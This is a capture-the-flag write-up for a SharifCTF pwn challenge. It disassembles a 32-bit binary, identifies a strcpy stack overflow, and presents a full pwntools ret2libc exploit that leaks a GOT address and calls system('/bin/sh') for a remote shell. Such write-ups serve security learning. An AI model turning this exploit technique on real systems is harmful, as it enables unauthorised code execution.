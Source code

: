 # OldSchool-NewAge

- **Category :** pwn
- **Points :** 75
- **Challenge Description :**
```
It all started with a leak bang
```

## Writeup

We are being provided with a tar file containing two files, an executable and a libc. Let's first run file on them :

```
$ file vuln4 libc.so.6
vuln4:     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
libc.so.6: ELF 32-bit LSB shared object, Intel 80386, version 1 (GNU/Linux), dynamically linked
```

We can start to guess that this challenge will have to do with leaking stuff from libc (thanks to the presence of the library and the hint in the challenge description).
Let's first take a look at the main function of the program with r2 :
```
   sym.main ();
│           ; var int local_3ah @ ebp-0x3a
│           ; var int local_4h @ ebp-0x4
│           ; var int local_4h_2 @ esp+0x4
│           0x080484ea      8d4c2404       lea ecx, esp + 4            ; 4
│           0x080484ee      83e4f0         and esp, 0xfffffff0
│           0x080484f1      ff71fc         push dword [ecx - 4]
│           0x080484f4      55             push ebp
│           0x080484f5      89e5           mov ebp, esp
│           0x080484f7      51             push ecx
│           0x080484f8      83ec44         sub esp, 0x44               ; 'D'
│           0x080484fb      83ec0c         sub esp, 0xc
│           0x080484fe      6800860408     push str.This_time_it_is_randomized... ; 0x8048600 ; "This time it is randomized..."
│           0x08048503      e898feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048508      83c410         add esp, 0x10
│           0x0804850b      83ec0c         sub esp, 0xc
│           0x0804850e      681e860408     push str.You_should_find_puts_yourself ; 0x804861e ; "You should find puts yourself"
│           0x08048513      e888feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048518      83c410         add esp, 0x10
│           0x0804851b      a1a4980408     mov eax, dword [obj.stdout] ; [0x80498a4:4]=0
│           0x08048520      83ec0c         sub esp, 0xc
│           0x08048523      50             push eax
│           0x08048524      e847feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x08048529      83c410         add esp, 0x10
│           0x0804852c      a1a0980408     mov eax, dword [obj.stdin]  ; [0x80498a0:4]=0
│           0x08048531      83ec04         sub esp, 4
│           0x08048534      50             push eax
│           0x08048535      68c8000000     push 0xc8                   ; 200
│           0x0804853a      8d45c6         lea eax, ebp - 0x3a
│           0x0804853d      50             push eax
│           0x0804853e      e83dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08048543      83c410         add esp, 0x10
│           0x08048546      83ec0c         sub esp, 0xc
│           0x08048549      8d45c6         lea eax, ebp - 0x3a
│           0x0804854c      50             push eax
│           0x0804854d      e879ffffff     call sym.copy_it
│           0x08048552      83c410         add esp, 0x10
│           0x08048555      83ec0c         sub esp, 0xc
│           0x08048558      683c860408     push str.done               ; 0x804863c ; "done!"
│           0x0804855d      e83efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048562      83c410         add esp, 0x10
│           0x08048565      b800000000     mov eax, 0
│           0x0804856a      8b4dfc         mov ecx, dword [local_4h]
│           0x0804856d      c9             leave
│           0x0804856e      8d61fc         lea esp, ecx - 4
└           0x08048571      c3             ret
```

So we have a fgets reading 0xc8 characters into a stack allocated buffer, and this buffer is then copied with the copy_it function to another buffer in memory. Let's take a look at copy_it.

```
│   sym.copy_it ();
│           ; var int local_12h @ ebp-0x12
│              ; CALL XREF from 0x0804854d (sym.main)
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           mov ebp, esp
│           0x080484ce      83ec18         sub esp, 0x18
│           0x080484d1      83ec08         sub esp, 8
│           0x080484d4      ff7508         push dword [ebp + 8]
│           0x080484d7      8d45ee         lea eax, ebp - 0x12
│           0x080484da      50             push eax
│           0x080484db      e8b0feffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484e0      83c410         add esp, 0x10
│           0x080484e3      b800000000     mov eax, 0
│           0x080484e8      c9             leave
└           0x080484e9      c3             ret
```

The copy function uses strcpy, which means that it doesn't take into account the string length during the copy, and since we are calling it with pointers to stack allocated buffers things will get nasty.
If we try to input a large number of chars we get a segfault, and eip control, so we need to build a strategy to exploit this.

What we know:
- The binary has ASLR enabled
- The binary has the NX bit enabled
- The call convention has the arguments on the stack
- We only have a few libc functions available to us (fflush, fgets, strcpy, puts).

## Strategy
Since the arguments are on the stack, we can build our own fake stack frames to call functions. If we take a look at our functions we can see that we have puts, which can allow us to read arbitrary memory locations. And this is where the leaking part of this challenge is, we can leak libc function addresses by reading from the GOT with puts, and build on that. We can outline the following strategy :

- Call puts(address of fgets) and leak fgets address
- Compute libc base address (fgets leak - fgets in libc)
- Compute system address
- Compute "/bin/sh" address in libc
- Return to _start
- Call system("/bin/sh")
- ???
- Profit!

Note : Returning to _start allowed us to reset our stack to a sane state, and also allowed us to be able to exploit the program again without actually crashing it (and re-randomizing the addresses again)

We can then just navigate to the ctfuser home directory and cat the flag !
```
$ cat /home/ctfuser/flag
SharifCTF{7af9dab81dff481772609b97492d6899}
```

## Exploit script

```python
from pwn import *

overflow_offset = 22

puts_bin_addr = 0x80483a0
fgets_got = 0x804986c

main_addr = 0x80484ea
_start_addr = 0x80483d0

fgets_libc_addr = 0x0005e150 # 0x00065c50 locally
bin_sh_libc_addr = 0x0015ba0b # 0x0017882a locally
system_libc_addr = 0x0003ada0 # 0x0003c7d0 locally

# Goal : Leak puts addr and cal system
# step 1 : Leak fgets
# - Build a false stack frame
# - Call puts with delta GOT offset as argument
# - Read addr and compute delta

p = remote("ctf.sharif.edu",4801)
p.recv(4096)

stage1 = "A"*overflow_offset
stage1 += p32(puts_bin_addr)
stage1 += p32(_start_addr) # return address
stage1 += p32(fgets_got)

log.info("Leaking fgets got ...")
p.sendline(stage1)

leak = p.recv(4096)

fgets_got_entry = u32(leak[0:4])

log.info("fgets got address : {}".format(hex(fgets_got_entry)))

libc_base_addr = fgets_got_entry - fgets_libc_addr

bin_sh_addr = libc_base_addr + bin_sh_libc_addr
system_addr = libc_base_addr + system_libc_addr

log.info("libc base addr is : {}".format(hex(libc_base_addr)))
log.info("/bin/sh string addr is : {}".format(hex(bin_sh_addr)))
log.info("system addr is : {}".format(hex(system_addr)))


# step 2 : exploit
# - Call main again
# - Call system("/bin/sh")
# - Profit !

log.info("Getting remote shell ...")
stage2 = "A"*overflow_offset
stage2 += p32(system_addr)
stage2 += p32(_start_addr)
stage2 += p32(bin_sh_addr)

p.sendline(stage2)

# Remote shell
p.interactive()
```


